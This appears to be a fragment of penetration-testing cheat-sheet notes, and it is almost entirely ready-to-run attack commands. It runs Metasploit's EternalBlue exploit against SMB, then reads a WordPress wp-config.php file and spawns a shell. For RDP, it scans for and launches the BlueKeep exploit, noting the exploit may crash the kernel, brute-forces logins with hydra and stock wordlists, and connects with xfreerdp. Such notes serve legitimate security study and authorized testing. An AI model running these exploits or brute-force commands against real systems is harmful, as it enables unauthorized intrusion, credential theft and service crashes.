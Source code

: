 ```bash
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS <TARGET_IP>
run

sysinfo
cd /
cd wamp
dir
cd www\\wordpress
cat wp-config.php
shell
```

#### **SMB**

#### **RDP**

```bash
# RDP
nmap -sV <TARGET_IP>
```

```bash
## METASPLOIT
# Global set
setg RHOSTS <TARGET_IP>
setg RHOST <TARGET_IP>

use auxiliary/scanner/rdp/rdp_scanner
use auxiliary/scanner/rdp/cve_2019_0708_bluekeep

set RPORT <PORT>

# ! Kernel crash may be caused !
use exploit/windows/rdp/cve_2019_0708_bluekeep_rce

show targets
set target <NUMBER>
set GROOMSIZE 50
```

```bash
hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://<TARGET_IP> -s <PORT>
```

```bash
xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT>

xfreerdp /u:<USER> /p:<PW> /v:<TARGET_IP>:<PORT> /w:1920 /h:1080 /fonts /smart-sizing
```

### **WinRM**
